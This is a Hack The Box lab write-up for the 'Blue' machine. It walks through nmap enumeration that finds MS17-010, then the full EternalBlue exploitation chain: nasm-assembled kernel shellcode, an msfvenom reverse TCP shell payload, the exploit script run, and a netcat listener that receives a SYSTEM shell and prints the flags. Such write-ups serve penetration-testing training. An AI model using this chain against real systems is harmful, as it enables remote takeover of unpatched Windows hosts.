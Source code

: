 ```yaml
---
layout: single
title: Blue - Hack The Box
excerpt: "N/A"
date: 2019-04-09
classes: wide
header:
  teaser: /assets/images/htb-writeup-blue/blue_logo.png
  teaser_home_page: true
  icon: /assets/images/windows.png
  unreleased: false
categories:
  - hackthebox
tags:  
  - windows
  - eternalblue
  - ms17-010
  - smb
---
```


![](/assets/images/htb-writeup-blue/blue_logo.png){: style="float: right; width: 200px; margin-left: 2em"}

N/A<br><br><br><br><br><br><br>

----------------


# User
## Enumeration
```bash
[root:/git/htb/blue]# nmap -Pn -n -sCV 10.10.10.40 --open                                                                         (master✱)
  Not shown: 991 closed ports
  PORT      STATE SERVICE      VERSION
  135/tcp   open  msrpc        Microsoft Windows RPC
  139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
  445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
  49152/tcp open  msrpc        Microsoft Windows RPC
  49153/tcp open  msrpc        Microsoft Windows RPC
  49154/tcp open  msrpc        Microsoft Windows RPC
  49155/tcp open  msrpc        Microsoft Windows RPC
  49156/tcp open  msrpc        Microsoft Windows RPC
  49157/tcp open  msrpc        Microsoft Windows RPC
  Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

  Host script results:
  |_clock-skew: mean: 3m40s, deviation: 1s, median: 3m39s
  | smb-os-discovery:
  |   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
  |   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
  |   Computer name: haris-PC
  |   NetBIOS computer name: HARIS-PC\x00
  |   Workgroup: WORKGROUP\x00
  |_  System time: 2021-02-24T13:00:40+00:00
  | smb-security-mode:
  |   account_used: guest
  |   authentication_level: user
  |   challenge_response: supported
  |_  message_signing: disabled (dangerous, but default)
  | smb2-security-mode:
  |   2.02:
  |_    Message signing enabled but not required
  | smb2-time:
  |   date: 2021-02-24T13:00:38
  |_  start_date: 2021-02-24T12:54:58


[root:/git/htb/blue]# nmap -p139,445 --script vuln 10.10.10.40                                                                    (master✱)
  Host script results:
  |_smb-vuln-ms10-054: false
  |_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
  | smb-vuln-ms17-010:
  |   VULNERABLE:
  |   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
  |     State: VULNERABLE
  |     IDs:  CVE:CVE-2017-0143
  |     Risk factor: HIGH
  |       A critical remote code execution vulnerability exists in Microsoft SMBv1
  |        servers (ms17-010).
  |
  |     Disclosure date: 2017-03-14
  |     References:
  |       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
  |       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
  |_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
```

## Exploit MS17-010
Just like the box `legacy` this device is vulnerable to ms17-010, EternalBlue (as suggested by the box name).
Trying to execute the same exploit and payload however gives us an error, so we need to find another approach.

```bash
[root:/git/htb/blue]# python send_and_execute.py 10.10.10.40 ms17-010.exe                                                         (master✱)
  Trying to connect to 10.10.10.40:445
  Target OS: Windows 7 Professional 7601 Service Pack 1
  Not found accessible named pipe
  Done
```

Assemble the shellcode to binary, here we need to know the architecture (x64 or x86) but Im assuming it's x64 so lets start with that.

```bash
[root:/git/htb/blue]# nasm -f bin eternalblue_kshellcode_x64.asm -o sc_x64_kernel.bin
```

Generate binary payload:
```bash
[root:/git/htb/blue]# msfvenom -p windows/x64/shell_reverse_tcp LPORT=4488 LHOST=10.10.14.10 --platform windows -a x64 --format raw -o sc_x64_payload.bin
  No encoder specified, outputting raw payload
  Payload size: 460 bytes
  Saved as: sc_x64_payload.bin
```
Concentrate payload & shellcode:
```bash
[root:/git/htb/blue]# cat sc_x64_kernel.bin sc_x64_payload.bin > sc_x64.bin
```

Exploit and grab all the flags.
```bash
[root:/git/htb/blue]# python eternalblue_exploit7.py 10.10.10.40 sc_x64.bin                                                       (master✱)
  shellcode size: 1232
  numGroomConn: 13
  Target OS: Windows 7 Professional 7601 Service Pack 1
  SMB1 session setup allocate nonpaged pool success
  SMB1 session setup allocate nonpaged pool success
  good response status: INVALID_PARAMETER
  done


[root:/git/htb/blue]# nc -lvnp 4488                                                                                               (master✱)
  listening on [any] 4488 ...
  connect to [10.10.14.10] from (UNKNOWN) [10.10.10.40] 49158
  Microsoft Windows [Version 6.1.7601]
  Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

  C:\Windows\system32>whoami
    nt authority\system

  C:\Users\haris\Desktop>type user.txt
    4c546aea7dbee75cbd71de245c8deea9

  C:\Users\Administrator\Desktop>type root.txt
    ff548eb71e920ff6c08843ce9df4e717
```

# References
- [ms17-010 EternalBlue manual exploit](https://root4loot.com/post/eternalblue_manual_exploit/)
- [ms17-010 shellcode](https://github.com/worawit/MS17-010/tree/master/shellcode)
  
